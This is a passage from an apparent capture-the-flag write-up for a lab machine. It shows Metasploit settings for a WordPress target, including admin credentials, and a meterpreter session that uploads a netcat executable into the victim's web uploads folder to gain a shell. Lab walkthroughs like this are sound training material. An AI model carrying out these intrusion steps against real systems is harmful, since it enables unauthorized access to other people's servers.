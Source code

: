 - set information 
```
# set LHOST <my_ipaddress>
# set PASSWORD P@s5w0rd!
# set RHOSTS 10.10.10.29
# set USERNAME admin
# set TARGETURI /wordpress
```

![](./IMG/11.png)
![](./IMG/12.png)
![](./IMG/13.png)

### Upload the nc to victim server 

- Download the nc executable file 
- [nc executable file](https://github.com/int0x33/nc.exe)
```
# git clone https://github.com/int0x33/nc.exe.git
```
![](./IMG/14.png)

- In meterpreter, change directory on attacker's machine
```
# lcd <target directory on attack machine>
# lcd /home/kali/Desktop/HTB/nc.exe/
```
- Change directory on victim's machine
```
# cd <target directory on victim machine>
# cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
```
- upload nc executable file to remote victim server
```
# upload nc64.exe
```
